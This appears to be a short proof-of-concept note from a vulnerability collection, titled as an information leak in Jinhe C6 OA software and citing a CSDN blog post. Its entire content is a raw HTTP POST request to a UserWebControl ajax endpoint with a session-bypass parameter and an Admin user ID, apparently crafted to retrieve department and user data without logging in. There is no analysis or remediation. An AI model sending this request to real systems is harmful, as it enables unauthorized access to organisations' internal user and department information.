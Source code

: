 # jinhe_userwebcontrol_infoleak
2024/01/05
@2
from: https://blog.csdn.net/luochen2436/article/details/135371860
```
POST /C6/ajax/UserWebControl.UserSelect.AjaxServiceMethod,UserWebControl.UserSelect.ashx?_method=GetDepartDataByDeptID&_session=no HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0
Content-Length: 101
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: text/plain;charset=UTF-8

strDeptID=
strUserId=Admin
strUserEsp=
strArchivesId=
deptIds=
IsShowChildrenDept=0
IsCascade=1

```

